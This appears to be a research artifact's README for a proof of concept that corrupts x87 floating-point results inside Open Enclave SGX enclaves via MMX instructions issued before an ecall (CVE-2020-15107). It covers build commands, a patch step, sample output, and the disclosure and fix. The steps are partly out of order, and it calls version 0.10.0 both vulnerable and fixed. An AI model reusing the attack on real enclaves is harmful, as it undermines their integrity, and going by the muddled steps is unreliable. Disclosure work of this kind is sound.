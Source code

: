# Proof of concept attack on OpenEnclave

Open Enclave were the initial project to address the core issue described in the paper by using `ldmxcsr/cw` instructions. Following this patch, we started to investigate the issue described in the paper. During our investigation, we discovered a subclass of the issue, namely the MMX attack vector.

## Background and affected runtimes

The trusted enclave entry code reset the x87 FPU control word and SSE MXCSR control registers. We observed, however, that Open Enclave used `ldmxcsr/cw` instructions, instead of a full `xrstor` (as patched in e.g. in the Intel SGX-SDK):

 <https://github.com/openenclave/openenclave/commit/efe75044d215d43c2587ffd79a52074bf838368b>

This left a possibility to corrupt enclaved floating point operations (using the x87 FPU) by issuing MMX instructions in untrusted code before enclave entry. As of publication of this artifact, Microsoft has also decided to apply a full `xrstor` instruction to mitigate this here described issue (see below for details on the patch and associated CVE).

## Building and running the proof-of-concept exploit

This directory contains a minimal PoC developed with the vulnerable Open Enclave SDK. The PoC shows that untrusted code could affect the integrity (expected outcome) of x87 floating point operations. Concretely, without executing MMX instructions before ecall entry, the sample enclave correctly computes a floating point multiplication:

### 1. Install vulnerable unmodified OpenEnclave SDK

Minimal instructions based on `openenclave/docs/GettingStartedDocs/install_oe_sdk-Simulation.md` and ` openenclave/docs/GettingStartedDocs/install_oe_sdk-Ubuntu_18.04.md`:

```bash
$ sudo dpkg -i --force-depends ~/Downloads/Ubuntu_1804_open-enclave_0.10.0_amd64.deb 
$ cp -r /opt/openenclave/share/openenclave/samples mysamples
$ cd mysamples/helloworld/
$ make simulate 
host/helloworldhost ./enclave/helloworldenc.signed --simulate
Running in simulation mode
Hello world from the enclave
Enclave called into host to print: Hello World!
```
$ patch -p1 < oe.patch
$ make simulate 
host/helloworldhost ./enclave/helloworldenc.signed --simulate
Running in simulation mode
Running in sim mode
Hello world from the enclave
Result = 0.246914



```bash
$ cd openenclave-master/
$ git submodule init
$ git submodule update
$ mkdir build && cd build
$ cmake .. -DHAS_QUOTE_PROVIDER=OFF -DENABLE_REFMAN=OFF -DCMAKE_BUILD_TYPE=Release -DUSE_LIBSGX=OFF
```

### 2. Run modified hello-world application

```bash
$ cd openenclave-master/
$ git apply ../oe.patch


Hello world from the enclave
Running in HW mode
Result = 0.246914
```

When issuing an MMX operation before invocation of the ecall in the untrusted host program, the floating point result is corrupted:

```bash
Hello world from the enclave
Running in HW mode
Result = -nan
```

## Disclosure and mitigation

This issue was acknowledged by Microsoft and assigned CVE-2020-15107 (OpenEnclave security advisory [GHSA-7wjx-wcwg-w999](https://github.com/openenclave/openenclave/security/advisories/GHSA-7wjx-wcwg-w999)). Our proposed mitigation of using an `xrstor` was addressed and incorporated in version 0.10.0.
